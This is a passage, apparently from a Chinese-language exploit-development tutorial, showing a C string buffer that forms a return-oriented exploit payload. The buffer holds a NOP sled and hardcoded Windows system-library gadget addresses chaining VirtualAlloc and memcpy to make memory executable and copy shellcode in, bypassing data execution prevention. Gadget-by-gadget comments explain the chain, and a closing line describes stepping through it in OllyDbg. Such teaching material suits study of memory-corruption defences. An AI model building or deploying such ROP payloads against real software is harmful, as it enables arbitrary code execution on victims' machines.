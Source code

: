 ```c
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//address of PUSH ESP POP EBP RETN 4 
    "\xBC\x45\x82\x7C"//address of call VirtualAllocEx
    "\x90\x90\x90\x90"//
    "\xFF\xFF\xFF\xFF"//hProcess = -1 ,-1 stands for current process
    "\x00\x00\x03\x00"//lpAddress = 00030000
    "\xFF\x00\x00\x00"//dwSize= 0xff
    "\x00\x10\x00\x00"//flAllocationType = 0x1000
    "\x40\x00\x00\x00"//flProtect = 0x40,stands for exec_read_write
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7c"//=[0012fed4] address of pop eax ret
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x0B\x1A\xBF\x7C" // 这个位置是VirtualAlloc 调用后ret 10返回后esp指向的位置，也是pop eax指令赋给eax的内容.
    "\xBA\xD9\xBB\x7C" // EBP之前被破坏，现在调整EBP值（现在为90909090，应当使其为esp或相近值） address of PUSH ESP POP EBP RET 4
    "\x5F\x78\xA6\x7C"//address of pop ecx retn
    "\x90\x90\x90\x90"
    "\x00\x00\x03\x00"//可执行内存空间地址,memcpy目标地址
    "\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址
    "\xFF\x00\x00\x00"//shellcode 长度
    "\xAC\xAF\x94\x7C"//memcpy 函数切入点; 
    ; 
```

重新编译程序后用 OllyDbg 加载程序，并在 0x7CBBD9BA（调整 EBP 入口）处下断点，然后按 F8 键单步运行到 memcpy 函数复制结束返回前暂停，观察内存状态。
